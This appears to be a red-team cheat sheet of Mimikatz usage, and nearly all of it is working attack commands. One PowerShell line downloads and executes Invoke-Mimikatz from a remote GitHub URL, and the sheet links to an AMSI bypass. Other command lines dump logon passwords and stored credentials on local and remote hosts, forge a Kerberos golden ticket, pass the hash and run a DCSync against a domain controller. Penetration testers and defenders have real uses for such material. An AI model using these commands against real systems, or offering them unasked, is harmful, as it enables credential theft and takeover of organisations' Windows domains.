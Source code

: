 # Add to PowerShell
- [Patch amsi.dll](https://github.com/okazymyrov/piki/blob/master/PowerShell.md#patching-amsidll-amsiscanbuffer-by-rasta-mouse)
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

## Invoke-Mimikatz custom commands
```powershell
Invoke-Mimikatz -Command '"log mimi.log" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'
```

## Invoke-Mimikatz custom commands on remote machines
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "sekurlsa::credman"' -ComputerName @("<hostname1>.domain.local", "<hostname2>.domain.local")
```

# Lists all available provider credentials
```console
mimikatz "log" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
```

# Make a Golden ticket
<details>
  <summary>Find SID</summary>
  
  Using [wmic](https://github.com/okazymyrov/piki/blob/master/wmic.md#get-sids-of-domains) or 
  ```console
  whoami /all
  ```
  
</details>

```console
mimikatz "kerberos::golden /user:<username> /domain:<domain> /sid:<sid> /aes256:<aes256_hmac> /id:<user_id> /groups:<group_id> /startoffset:0 /endin:600 /renewmax:10080 /ticket:<user.domain.kirbi>" "exit"
```

# Path-the-hash
```console
mimikatz "sekurlsa::pth /user:<user> /aes256:<aes256_hmac> /domain:<domain> /run:cmd.exe" "exit"
```

# dcsync
```console
mimikatz  "log" "lsadump::dcsync /domain:<domain>.local /user:<domain>\<user>" "exit"
```
